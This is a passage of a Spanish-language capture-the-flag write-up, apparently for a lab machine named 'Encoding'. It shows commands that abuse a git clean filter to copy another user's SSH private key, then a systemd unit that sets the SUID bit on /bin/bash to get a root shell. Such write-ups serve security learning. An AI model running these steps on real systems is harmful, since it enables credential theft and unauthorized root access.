 Lo único que tenemos que hacer es utilizar el generador para entablarnos una shell hacia la máquina. Para movernos lateralmente podemos abusar de permisos del scripts git-commit.sh

```shell
www-data@encoding:/home$ echo "cat ~/.ssh/id_rsa > /tmp/id_rsa" > /tmp/exploit
www-data@encoding:/home$ chmod +x /tmp/exploit
www-data@encoding:/home$ cd /var/www/image
www-data@encoding:~/image$ git init
Reinitialized existing Git repository in /var/www/image/.git/
www-data@encoding:~/image$ ls -la
total 36
drwxr-xr-x  7 svc  svc  4096 Feb 10 03:18 .
drwxr-xr-x  5 root root 4096 Feb 10 03:18 ..
drwxrwxr-x+ 8 svc  svc  4096 Feb 10 03:19 .git
drwxr-xr-x  2 svc  svc  4096 Feb 10 03:18 actions
drwxr-xr-x  3 svc  svc  4096 Feb 10 03:18 assets
drwxr-xr-x  2 svc  svc  4096 Feb 10 03:18 includes
-rw-r--r--  1 svc  svc    81 Feb 10 03:18 index.php
drwxr-xr-x  2 svc  svc  4096 Feb 10 03:18 scripts
-rw-r--r--  1 svc  svc  1250 Feb 10 03:18 utils.php
www-data@encoding:~/image$ echo '*.php filter=indent' > .git/info/attributes
www-data@encoding:~/image$ git config filter.indent.clean /tmp/exploit
www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
On branch master
Changes not staged for commit:
  (use "git add <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	modified:   actions/action_handler.php
	modified:   index.php
	modified:   utils.php

no changes added to commit (use "git add" and/or "git commit -a")
www-data@encoding:~/image$ 

```
Con eso podremos obtener el id_rsa sel usuario svc. Con este usuario tenemos podemos usar systemctl para hacerle un reset a cualquier servicio. Creamos un servicio que nos de permisos suid sobre la bash, creamos el servicio en /etc/systemd/system/devil.service

```shell
svc@encoding:/etc/systemd/system$ sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

```shell
[Service]
Type=oneshot
ExecStart=chmod u+s /bin/bash
[Install]
WantedBy=multi-user.target
```
Y finalmento solo reseteamos el servicio de devil.service y podemos hacernos de una bash con root.

```shell
svc@encoding:/etc/systemd/system$ sudo /usr/bin/systemctl restart devil
svc@encoding:/etc/systemd/system$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
